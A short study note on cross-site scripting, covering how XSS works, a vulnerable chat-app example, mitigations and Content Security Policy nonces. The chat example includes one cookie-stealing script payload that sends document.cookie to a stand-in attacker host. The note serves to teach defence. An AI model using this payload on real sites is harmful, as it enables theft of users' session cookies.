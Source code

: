 ```yaml
---
tags: [Security]
title: 'Security: Cross-site scripting (XSS)'
created: '2024-03-28T07:19:52.108Z'
modified: '2024-03-28T09:46:23.803Z'
---
```


# Security: Cross-site scripting (XSS)

[SNYK lesson](https://learn.snyk.io/lesson/xss/)

XSS is injection and subsequent execution of the malicious code to, and by, a trusted website.

Sequence of actions:
1. The attacker injects a malicious script into a trusted website
2. The user interacts with the compromised website
3. During that interaction, the user's browser executes the malicious script

A common source of XSS threat &mdash; if a website can render **unescaped HTML** that can be somehow slipped in by the attacker, e.g. via user input.

**Example**: a chat app that, when rendering messages, does not escape the content sent by the sender:
1. the attacker sends a message containing malicious code, e.g. `<script>new Image().src="http://maliciouswebsite.io/"+document.cookie;</script>`
2. the other chat member receives the attacker's message
3. the receiver's browser executes malicious code contained in the attacker's message

**NB!** Malicious code can be wrapped not only in `<script>`s &mdash; other examples are `<img src>`, `<img onerror>`, `<a href>`, etc.

**Threat mitigation**
- Identify all places where external users can provide their input
- Validate all user inputs
- Escape the output from user-controlled data
- Avoid placing user inputs in `<script>`, `<style>`, HTML attributes
- Set up **Content Security Policy**
- Enforce [**Trusted Types**](https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API)


## Content Security Policy

[Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)  
[Content-Security-Policy header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)

To start off, the browser must be communicated the CSP policy somehow. This can be done in one of 2 ways:
- server sets `Content-Security-Policy: ...` header on the response with page HTML
- on the page itself, using `<meta http-equiv="Content-Security-Policy" content="...">` in the `<head>`

**Best practice**: **`'nonce-*'`** directive values are often used with `script-src` and `style-src` to be able to _whitelist_ trusted inline scripts/styles as follows:
- random nonce is generated by the server
- CSP header includes `script-src 'nonce-{randomNonceValue}'`
- the whitelisted inline script on the page must have `nonce` attribute like so: `<script nonce="{randomNonceValue}">...</script>`
- all inline scripts without, or with differing, nonce will be blocked by the browser
